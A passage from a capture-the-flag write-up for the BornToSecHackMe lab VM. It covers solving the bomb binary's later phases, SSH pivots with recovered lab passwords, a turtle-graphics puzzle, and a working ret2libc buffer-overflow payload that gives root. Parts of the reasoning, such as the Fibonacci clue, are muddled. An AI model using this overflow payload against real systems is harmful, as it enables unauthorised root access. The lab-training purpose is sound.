0x80497e8:	0x08048be0	0x08048c00	0x08048c16	0x08048c28
0x80497f8:	0x08048c40	0x08048c52	0x08048c64	0x08048c76
```
- With this, we now have the complete table. Each address corresponds to a case:
```bash
case 0 → 0x08048be0 → bl=0x71('q'), número=0x309=777
case 1 → 0x08048c00 → bl=0x62('b'), número=0xd6=214
case 2 → 0x08048c16 → bl=0x62('b'), número=0x2f3=755
case 3 → 0x08048c28 → bl=0x6b('k'), número=0xfb=251
case 4 → 0x08048c40 → bl=0x6f('o'), número=0xa0=160
case 5 → 0x08048c52 → bl=0x74('t'), número=0x1ca=458
case 6 → 0x08048c64 → bl=0x76('v'), número=0x30c=780
case 7 → 0x08048c76 → bl=0x62('b'), número=0x20c=524
```
- We read it directly from the ASM — for example case 1:
```
<+104>: mov bl,0x62         ← 0x62 = 'b' in ASCII
<+106>: cmp [ebp-0x4],0xd6  ← The third number must be 0xd6 = 214
```

This matches clue 3 in the README; any case with `b` works.

## **`Password Phase 3: 1 b 214`**

4. In the analysis of the `phase_4` function, we see that it reads a single number with `sscanf` using the format `"%d"` and passes it to `func4`. The result should be `0x37 = 55`:

```bash
(gdb) x/s 0x8049808
0x8049808:	 "%d"
```

```asm
<+61>: cmp eax, 0x37     ← func4(n) should return 55
<+64>: je  phase_4+71    ← Otherwise, it explodes.
```

`func4` is a recursive function — it calls itself with `n-1` and `n-2`
and sums the results. It is the **Fibonacci sequence**:

```asm
<+11>: cmp ebx, 0x1
<+14>: jle func4+48      ← base case: if n <= 1 return 1
<+23>: call func4        ← func4(n-1)
<+37>: call func4        ← func4(n-2)
<+42>: add eax, esi      ← return func4(n-1) + func4(n-2)
```

We calculate the sequence until we find the index that returns `55`:

```
func4(1)  = 1
func4(2)  = 2
func4(3)  = 3
func4(4)  = 5
func4(5)  = 8
func4(6)  = 13
func4(7)  = 21
func4(8)  = 34
func4(9)  = 55  ← matches 0x37
```

The README clue is `4` — it refers to the number `4` that appears in index `9` of the sequence (the fourth Fibonacci prime greater than 1).

### **`Password Phase 4: 9`**

5. The analysis of the `phase_5` function verifies that the entered string has exactly **6 characters**:

```asm
<+23>: cmp eax, 0x6    ← length should be 6
<+28>: call explode_bomb
```

Then it constructs a new 6-character string using each character of the input as an index in the array `array.123`:

```asm
<+46>: and al, 0xf          ← takes the last 4 bits of the character
<+51>: mov al, [eax+esi*1]  ← Use those 4 bits as an index in array.123
```

The array is:
```
array.123 = "isrveawhobpnutfg"
index:      0123456789abcdef
```

The result should equal `"giants"`:
```
g → index 15 (0xf) → we need a character whose last nibble is f → 'o' (0x6f) or 'O' (0x4f)
i → index  0 (0x0) → 'p' (0x70) o 'P' (0x50)
a → index  5 (0x5) → 'e' (0x65) o 'E' (0x45)
n → index 13 (0xd) → 'm' (0x6d) o 'M' (0x4d)  (0xd = 13)
t → index 11 (0xb) → 'k' (0x6b) o 'K' (0x4b)  (0xb = 11)
s → index  2 (0x2) → 'r' (0x72) o 'R' (0x52)
```

The README clue is `o` — corresponding to the first character with index `f`.

A valid solution is `opekmq`.

### **`Password Phase 5: opekmq`**

6. The analysis of the `phase_6` function is the most complex. It reads **6 numbers** with `read_six_numbers` and applies three checks:

**Verification 1 — values ​​between 1 and 6:**
```asm
<+46>: dec eax
<+47>: cmp eax, 0x5
<+50>: jbe phase_6+57    ← If (value-1) <= 5, continue, that is, value <= 6
<+52>: call explode_bomb
```

**Verification 2 — no duplicates:**
```asm
<+84>: cmp eax, [esi+ebx*4]   ← Compare each number with the following
<+87>: jne phase_6+94         ← If they are the same, it explodes.
<+89>: call explode_bomb
```

**Verification 3 — ordered linked list:**

The address `0x804b26c` points to a **linked list** of 6 nodes. Each node has a value and a pointer to the next node. The numbers entered are used as indices to reorder the nodes in the list:

```asm
<+120>: mov esi, [ebp-0x34]   ← pointer to the first node
<+152>: mov esi, [esi+0x8]    ← advance to the next node
```

Once the list has been reordered, verify that the values ​​are in descending order:

```asm
<+221>: cmp eax, [edx]        ← current node must be >= next node
<+223>: jge phase_6+230
<+225>: call explode_bomb
```

We need to know the values ​​of each node. We inspect them in GDB:

```bash
(gdb) x/24wx 0x804b26c
0x804b26c <node1>:	0x000000fd	0x00000001	0x0804b260	0x000003e9
0x804b27c <n48+4>:	0x00000000	0x00000000	0x0000002f	0x00000000
0x804b28c <n46+8>:	0x00000000	0x00000014	0x00000000	0x00000000
0x804b29c <n42>:	0x00000007	0x00000000	0x00000000	0x00000023
0x804b2ac <n44+4>:	0x00000000	0x00000000	0x00000063	0x00000000
0x804b2bc <n47+8>:	0x00000000	0x00000001	0x00000000	0x00000000
```
The memory format is unclear with that command. We need to see the nodes correctly—each node has value (4 bytes) + index (4 bytes) + next (4 bytes):

```bash
(gdb) x/3wx 0x804b26c
0x804b26c <node1>:	0x000000fd	0x00000001	0x0804b260
(gdb) x/3wx 0x804b260
0x804b260 <node2>:	0x000002d5	0x00000002	0x0804b254
(gdb) x/3wx 0x804b254
0x804b254 <node3>:	0x0000012d	0x00000003	0x0804b248
(gdb)  x/3wx 0x804b248
0x804b248 <node4>:	0x000003e5	0x00000004	0x0804b23c
(gdb)  x/3wx 0x804b23c
0x804b23c <node5>:	0x000000d4	0x00000005	0x0804b230
(gdb) x/3wx 0x804b230
0x804b230 <node6>:	0x000001b0	0x00000006	0x00000000
```

With this information we now have all the nodes:
```
node1: valor=0x0fd=253,  índice=1
node2: valor=0x2d5=725,  índice=2
node3: valor=0x12d=301,  índice=3
node4: valor=0x3e5=997,  índice=4
node5: valor=0x0d4=212,  índice=5
node6: valor=0x1b0=432,  índice=6
```

To put the list in **descending order** we need to sort by value from highest to lowest:
```
997  → node4 → índice 4
725  → node2 → índice 2
432  → node6 → índice 6
301  → node3 → índice 3
253  → node1 → índice 1
212  → node5 → índice 5
```

### **`Password Phase 6: 4 2 6 3 1 5`**

## 10. We execute the bomb binary

Now that we have the password for all stages, we run the binary and check:
```bash
laurie@BornToSecHackMe:~$ ./bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!

Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opekmq
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```

## 11. SSH access as Thor

We have verified that the stage passwords are correct.

The password for `thor` is formed by concatenating all the passwords without spaces and applying the subject rule—swapping the last two characters:

```
Phase 1: Publicspeakingisveryeasy.
Phase 2: 12624120720
Phase 3: 1b214
Phase 4: 9
Phase 5: opekmq
Phase 6: 426315
```

Concatenated: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`
```bash
laurie@BornToSecHackMe:~$ ssh thor@192.168.0.30
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.0.30's password:
thor@BornToSecHackMe:~$
```

Once we have logged in as Thor and listed the main directory, we find two files — `READEM` and `turtle`:
```bash
thor@BornToSecHackMe:~$ ls -la
total 41
drwxr-x--- 1 thor     thor    60 Oct 15  2015 .
drwxrwx--x 1 www-data root   100 Oct 13  2015 ..
-rwxr-x--- 1 thor     thor     6 Apr 24 01:58 .bash_history
-rwxr-x--- 1 thor     thor   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 thor     thor  3489 Oct 13  2015 .bashrc
drwx------ 2 thor     thor    43 Oct 15  2015 .cache
-rwxr-x--- 1 thor     thor   675 Oct  8  2015 .profile
-rwxr-x--- 1 thor     thor    69 Oct  8  2015 README
-rwxr-x--- 1 thor     thor 31523 Oct  8  2015 turtle
```
### README:
```bash
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```

### turtle:
```bash
thor@BornToSecHackMe:~$ cat turtle
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
[...]
Avance 100 spaces
Recule 200 spaces
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)
```

The name "turtle" refers to the Python module `turtle`. This module allows you to draw figures using instructions given in a Python program.

## 12. Python Draw

We need to convert the given instructions into Python code and run it.

The `turtle` file needs to be run on our host because the VM doesn't have a graphical environment. We download the file first, create the Python program, and then run it.

On our host:
```bash
scp thor@192.168.0.30:~/turtle /tmp/turtle.txt
```

```bash
scp thor@192.168.0.30:~/turtle /tmp/turtle.txt
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.0.30's password: 
turtle                                                      100%   31KB  18.3MB/s   00:00    
```

We created `draw.py`:
```bash
cat > /tmp/draw.py << 'EOF'
import turtle
import re

t = turtle.Turtle()
t.speed(0)
screen = turtle.Screen()

with open('/tmp/turtle.txt', 'r') as f:
    for line in f:
        line = line.strip()
        
        m = re.match(r'Avance (\d+) spaces', line)
        if m:
            t.forward(int(m.group(1)))
            continue
        
        m = re.match(r'Recule (\d+) spaces', line)
        if m:
            t.backward(int(m.group(1)))
            continue
        
        m = re.match(r'Tourne gauche de (\d+) degrees', line)
        if m:
            t.left(int(m.group(1)))
            continue
        
        m = re.match(r'Tourne droite de (\d+) degrees', line)
        if m:
            t.right(int(m.group(1)))
            continue

turtle.done()
EOF
```

And we execute:
```bash
python3 /tmp/draw.py
```

The image shows the letters `SLASH` drawn on it. Now we apply `MD5`:



```bash
thor@BornToSecHackMe:~$ echo -n "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
```

This is the password for the user `zaz`
```text
User: zaz
Pasword: 646da671ca01bb5d84dbb5fb2238dc8e
```

## 13. Acceso SSH como zaz

Log in with the username `zaz` and we'll make a list to see what we find:
```bash
thor@BornToSecHackMe:~$ ssh zaz@192.168.0.30
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
zaz@192.168.0.30's password: 
zaz@BornToSecHackMe:~$ ls -la
total 12
drwxr-x--- 4 zaz      zaz   147 Oct 15  2015 .
drwxrwx--x 1 www-data root  100 Oct 13  2015 ..
-rwxr-x--- 1 zaz      zaz     1 Oct 15  2015 .bash_history
-rwxr-x--- 1 zaz      zaz   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 zaz      zaz  3489 Oct 13  2015 .bashrc
drwx------ 2 zaz      zaz    43 Oct 14  2015 .cache
-rwsr-s--- 1 root     zaz  4880 Oct  8  2015 exploit_me        ←  Ejecutable como root
drwxr-x--- 3 zaz      zaz   107 Oct  8  2015 mail
-rwxr-x--- 1 zaz      zaz   675 Oct  8  2015 .profile
-rwxr-x--- 1 zaz      zaz  1342 Oct 15  2015 .viminfo
```

A quick inspection of the home directory reveals a binary file called `exploit_me` that will be executed as the root user.

If we manage to generate a console using this binary, we will have root privileges.

First, we list all the functions using GDB and see that there is only one function: `main()`.

```bash
(gdb) info functions 
All defined functions:

[...]
0x080483f4  main
[...]
```

We disassemble `main()`:

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	    push   ebp
   0x080483f5 <+1>:	    mov    ebp,esp
   0x080483f7 <+3>:	    and    esp,0xfffffff0
   0x080483fa <+6>:	    sub    esp,0x90
   0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    eax,0x1
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048410 <+28>:	add    eax,0x4
   0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
   0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
   0x08048419 <+37>:	lea    eax,[esp+0x10]
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    eax,[esp+0x10]
   0x08048429 <+53>:	mov    DWORD PTR [esp],eax
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    eax,0x0
   0x08048436 <+66>:	leave  
   0x08048437 <+67>:	ret    
End of assembler dump.
```

- `<+6>`: Allocates `0x90` (144) bytes on the stack — the buffer `dest` has **128 bytes** of usable data (144 - 16 bytes of alignment).
- `<+12>` and `<+16>`: Checks that `argc > 1` — if there is no argument, exits with `return 1`.
- `<+28>` to `<+31>`: Loads `argv[1]` — the argument passed to the binary.
- `<+44>`: Calls `strcpy(dest, argv[1])` — copies `argv[1]` into the buffer **without checking the size**. If the argument exceeds 128 bytes, the buffer overflows and the `EIP` is overwritten.
- `<+56>`: Calls `puts(dest)` — prints the contents of the buffer.

The attack vector is a classic Stack Buffer Overflow using `Ret2Libc` — the same one we used in `level07` of OverRide. We need to:

1. Locate the addresses of `system()`, `exit()`, and `/bin/sh` in libc.
2. Calculate the exact offset to the `EIP`.
3. Construct the payload: `padding + system() + exit() + /bin/sh`.

## 14. Calculate the offset

We located the addresses:
```bash
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r test
Starting program: /home/zaz/exploit_me test

Breakpoint 1, 0x080483f7 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) info proc map
process 4317
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
	0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) 
```

We have `system` and `exit`. Now we look for `/bin/sh` in the libc:
```bash
(gdb) find 0xb7e2c000,0xb7fd2000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

We have everything. Now we calculate the offset to the EIP -> the buffer is 128 bytes plus 4 bytes of saved EBP = 140 bytes of padding:
```bash
(gdb) r $(python -c "print 'A' * 140 + 'BBBB'")
```

If `EIP` is `0x42424242`, the offset is correct:
```bash
(gdb) r $(python -c "print 'A' * 140 + 'BBBB'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/zaz/exploit_me $(python -c "print 'A' * 140 + 'BBBB'")

Breakpoint 1, 0x080483f7 in main ()
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) 
```

`EIP` is `0x42424242` -> the 140-byte offset is correct.

## 15. Build the payload

We build the payload with the addresses we have:
```text
system():  0xb7e6b060
exit():    0xb7e5ebe0
/bin/sh:   0xb7f8cc58
```
**padding (140 bytes) + system() + exit() + /bin/sh**

And we execute:

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c "print 'A' * 140 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
```

## 16. Writeup 1 Conclusion

Writeup 1 follows a 15-step exploit chain that goes from IP discovery to obtaining root access:

```
Recognition → Foro → Webmail → phpMyAdmin → Webshell → www-data → FTP → laurie → Bomb → thor → Turtle → zaz → ROOT
```

Each step exploits a vulnerability or information leaked by the previous step, credentials exposed in logs, passwords in system files, SQL injection to create a webshell, and finally a Stack Buffer Overflow with Ret2LibC to escalate to root.

